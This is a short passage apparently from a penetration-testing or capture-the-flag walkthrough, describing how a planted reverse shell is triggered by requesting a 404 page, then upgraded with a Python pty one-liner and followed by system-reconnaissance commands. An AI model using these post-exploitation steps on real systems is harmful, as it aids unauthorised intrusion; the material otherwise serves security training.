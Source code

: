 Trigger the shell by visiting a non-existent page (404 error).

![/shell_triggered](./Screenshots/rshell_triggered.png)

Upgrade to a stable shell:
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
Gather information about the system

```bash
whoami && id
uname -a
cat /etc/os-release
cat /proc/version
hostname
if config
```
